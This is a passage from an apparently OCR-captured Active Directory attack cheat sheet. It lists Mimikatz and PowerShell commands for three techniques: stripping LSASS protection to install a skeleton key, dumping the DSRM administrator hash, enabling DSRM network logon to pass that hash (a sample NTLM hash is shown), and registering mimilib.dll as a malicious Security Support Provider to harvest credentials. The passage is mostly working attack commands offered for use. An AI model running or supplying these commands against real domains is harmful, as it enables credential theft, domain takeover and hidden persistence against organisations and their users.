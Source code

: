 - Install the Mimikatz driver (mimidriv.sys) on disk of the target Domain Controller who is running LSASS as a protected process

```
mimikatz # privilege::debug
mimikatz # !+
mimikatz # !processprotect /process:lsass.exe /remove
mimikatz # misc::skeleton
mimikatz # !-
```

### Directory Services Restore Mode (DSRM)

- Dump DSRM password (need Domain Admin privileges)

```
PS C:\> Invoke-Mimikatz -Command '"token::elevate" "lsadump::sam"' -ComputerName <Domain Controller>
```

- Compare the Administrator hash above with the Administrator hash of below command (first one is the DSRM local Administrator)

```
PS C:\> Invoke-Mimikatz -Command '"lsadump::lsa /patch"' -ComputerName <Domain Controller>
```

- Change the logon behaviour for the DSRM account before we can pass the hash and authenticate (since this is the local administrator of the Domain Controller, we can pass the hash to authenticate)

```
PS C:\> Enter-PSSession -ComputerName <Domain Controller>
PS C:\> New-ItemProperty "HKLM:\System\CurrentControlSet\Control\Lsa\" -Name "DsrmAdminLogonBehavior" -Value 2 -PropertyType DWORD -Verbose
PS C:\> Set-ItemProperty "HKLM:\System\CurrentControlSet\Control\Lsa\" -Name "DsrmAdminLogonBehaviour" -Value 2 -Verbose        # if the property already exists
```

- Use Mimikatz to pass the DSRM hash - make sure to run PowerShell as Administrator

```
PS C:\> Invoke-Mimikatz -Command '"sekurlsa::pth /domain:<Domain Controller name> e.g. test-dc> /user:Administrator /ntlm:a102ad5753f4c441e3af31c97fad86fd /run:powershell.exe"'

PS C:\> ls \\test-dc.test.domain.local\c$
```

### Custom Security Support Provider (SSP)

- Drop the mimilib.dll to system32, and add mimilib to HKLM\SYSTEM\CurrentControlSet\Control\Lsa\Security Packages

```
PS C:\> $packages = Get-ItemProperty HKLM:\SYSTEM\CurrentControlSet\Control\Lsa\OSConfig\ -Name 'Security Packages' | select -ExpandProperty 'Security Packages'
PS C:\> $packages += "mimilib"
PS C:\> Set-ItemProperty HKLM:\SYSTEM\CurrentControlSet\Control\Lsa\OSConfig\ -Name 'Security Packages' -Value $packages
PS C:\> Set-ItemProperty HKLM:\SYSTEM\CurrentControlSet\Control\Lsa\ -Name 'Security Packages' -Value $packages
```
